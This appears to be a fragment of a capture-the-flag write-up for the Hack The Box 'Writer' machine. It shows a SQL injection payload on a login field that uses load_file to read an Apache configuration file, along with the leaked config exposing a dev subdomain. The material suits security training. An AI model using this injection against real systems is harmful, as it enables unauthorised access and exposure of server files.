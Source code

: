 ```bash
┌──(kali㉿kali)-[~/…/HackTheBox/Medium/Writer/gain_access]
└─$ cd /etc/apache2/sites-enabled/ 
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[/etc/apache2/sites-enabled]
└─$ ls -la
total 8
drwxr-xr-x 2 root root 4096 May 30 17:24 .
drwxr-xr-x 8 root root 4096 Aug 13 10:23 ..
lrwxrwxrwx 1 root root   35 May 30 17:24 000-default.conf -> ../sites-available/000-default.conf
```

payload: `admin'+union+select+null,load_file('/etc/apache2/sites-enabled/000-default.conf'),null,null,null,null%3b+%23`.

```
Welcome admin# Virtual host configuration for writer.htb domain
&lt;VirtualHost *:80&gt;
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
        &lt;Directory /var/www/writer.htb&gt;
                Order allow,deny
                Allow from all
        &lt;/Directory&gt;
        Alias /static /var/www/writer.htb/writer/static
        &lt;Directory /var/www/writer.htb/writer/static/&gt;
                Order allow,deny
                Allow from all
        &lt;/Directory&gt;
        ErrorLog ${APACHE_LOG_DIR}/error.log
        LogLevel warn
        CustomLog ${APACHE_LOG_DIR}/access.log combined
&lt;/VirtualHost&gt;

# Virtual host configuration for dev.writer.htb subdomain
# Will enable configuration after completing backend development
# Listen 8080
#&lt;VirtualHost 127.0.0.1:8080&gt;
#	ServerName dev.writer.htb
#	ServerAdmin admin@writer.htb
#
        # Collect static for the writer2_project/writer_web/templates
#	Alias /static /var/www/writer2_project/static
#	&lt;Directory /var/www/writer2_project/static&gt;
#		Require all granted
#	&lt;/Directory&gt;
#
#	&lt;Directory /var/www/writer2_project/writerv2&gt;
#		&lt;Files wsgi.py&gt;
#			Require all granted
#		&lt;/Files&gt;
#	&lt;/Directory&gt;
#
#	WSGIDaemonProcess writer2_project python-path=/var/www/writer2_project python-home=/var/www/writer2_project/writer2env
#	WSGIProcessGroup writer2_project
#	WSGIScriptAlias / /var/www/writer2_project/writerv2/wsgi.py
#        ErrorLog ${APACHE_LOG_DIR}/error.log
#        LogLevel warn
#        CustomLog ${APACHE_LOG_DIR}/access.log combined
#
#&lt;/VirtualHost&gt;
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
